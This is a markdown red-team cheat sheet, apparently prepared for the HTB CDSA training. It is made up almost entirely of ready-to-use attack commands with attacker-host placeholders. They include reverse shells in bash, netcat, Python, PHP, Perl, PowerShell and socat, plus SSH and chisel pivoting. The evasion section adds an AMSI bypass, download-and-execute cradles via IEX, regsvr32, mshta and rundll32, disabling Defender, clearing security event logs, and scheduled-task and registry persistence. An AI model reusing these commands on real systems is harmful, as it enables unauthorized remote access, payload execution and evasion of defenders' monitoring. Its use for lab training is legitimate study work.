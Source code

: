 # 🛠 HTB CDSA Red Team Reference

## 🔧 Variable Inputs

Before using the commands below, define your variables:

| Variable      | Description                         | Example             |
|---------------|-------------------------------------|---------------------|
| `{{LHOST}}`   | Local host IP (attacker)            | `10.10.14.4`        |
| `{{LPORT}}`   | Local port                          | `9001`              |
| `{{RHOST}}`   | Remote host IP (target)             | `10.10.10.32`       |
| `{{RPORT}}`   | Remote port                         | `443`               |
| `{{USER}}`    | Username                            | `mark`              |
| `{{FILENAME}}`| File name or payload name           | `nc.exe`            |
| `{{URL}}`     | Full URL to hosted payload          | `http://{{LHOST}}/{{FILENAME}}` |

---

## 🔁 Reverse Shells

| **Command** | **Description** | **Modifiers / Notes** |
|-------------|------------------|------------------------|
| `powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('{{LHOST}}',{{LPORT}});..."` | PowerShell TCP reverse shell | `-nop` = no profile, `-w hidden` = no window |
| `bash -i >& /dev/tcp/{{LHOST}}/{{LPORT}} 0>&1` | Bash reverse shell | Works on most Linux targets |
| `python -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("{{LHOST}}",{{LPORT}})); ...'` | Python reverse shell | Use `python3` if needed |
| `php -r '$sock=fsockopen("{{LHOST}}",{{LPORT}}); exec("/bin/sh -i <&3 >&3 2>&3");'` | PHP reverse shell | Requires PHP installed |
| `perl -e 'use Socket;$i="{{LHOST}}";$p={{LPORT}};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));...'` | Perl reverse shell | Legacy but effective |
| `nc -e /bin/sh {{LHOST}} {{LPORT}}` | Netcat reverse shell | Requires `-e` support |
| `nc -c /bin/bash {{LHOST}} {{LPORT}}` | Netcat with `-c` flag | Alpine or BusyBox targets |
| `socat TCP:{{LHOST}}:{{LPORT}} EXEC:/bin/bash` | Socat reverse shell | Use `-d -d` for debug |

---

## 🧩 Tunneling & Pivoting

| **Command** | **Description** | **Modifiers / Notes** |
|-------------|------------------|------------------------|
| `ssh -L 8080:localhost:80 {{USER}}@{{RHOST}}` | Local port forwarding | Access remote web service locally |
| `ssh -R 9001:localhost:22 {{USER}}@{{RHOST}}` | Remote port forwarding | Expose local SSH to remote |
| `ssh -D 1080 {{USER}}@{{RHOST}}` | Dynamic SOCKS proxy | Use with proxychains |
| `plink.exe -ssh {{USER}}@{{RHOST}} -L 8080:127.0.0.1:80` | Windows SSH tunneling | GUI alternative to OpenSSH |
| `chisel server -p {{LPORT}} --reverse` | Chisel reverse proxy server | Use `client` on target |
| `chisel client {{LHOST}}:{{LPORT}} R:9001:127.0.0.1:22` | Chisel client reverse tunnel | Pivot SSH from target |
| `proxychains nmap -sT -Pn -n -v {{RHOST}}` | Proxy-aware Nmap scan | Configure `/etc/proxychains.conf` |
| `sshuttle -r {{USER}}@{{RHOST}} 0.0.0.0/0` | Full VPN-like tunnel | Requires Python on both ends |
| `rdesktop {{RHOST}} -u {{USER}}` | RDP access | Use `xfreerdp` for clipboard/file sharing |

---

## 🛡️ Detection Bypass & Defense Evasion

| **Command** | **Description** | **Modifiers / Notes** |
|-------------|------------------|------------------------|
| `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)` | AMSI bypass in PowerShell | Use in-memory execution |
| `powershell -ep bypass -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('{{URL}}')"` | Bypass execution policy | `-ep bypass`, `-nop`, `-w hidden` |
| `regsvr32 /u /n /s /i:"{{URL}}" scrobj.dll` | COM scriptlet execution | Fileless, proxy-aware |
| `mshta "{{URL}}"` | HTA-based execution | Often whitelisted |
| `rundll32 javascript:"\..\mshtml,RunHTMLApplication";document.write('<script src="{{URL}}"></script>')` | JavaScript via DLL | Fileless, stealthy |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Disable Defender (if allowed) | Requires admin |
| `wevtutil cl Security` | Clear event logs | Highly suspicious |
| `schtasks /create /tn "Updater" /tr "{{FILENAME}}" /sc minute /mo 1` | Scheduled task persistence | Use `/ru SYSTEM` for privilege |
| `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "{{FILENAME}}"` | Registry run key | User-level persistence |
| `InstallUtil.exe /logfile= /LogToConsole=false /U {{FILENAME}}` | DLL sideloading | Use with malicious .NET assemblies |


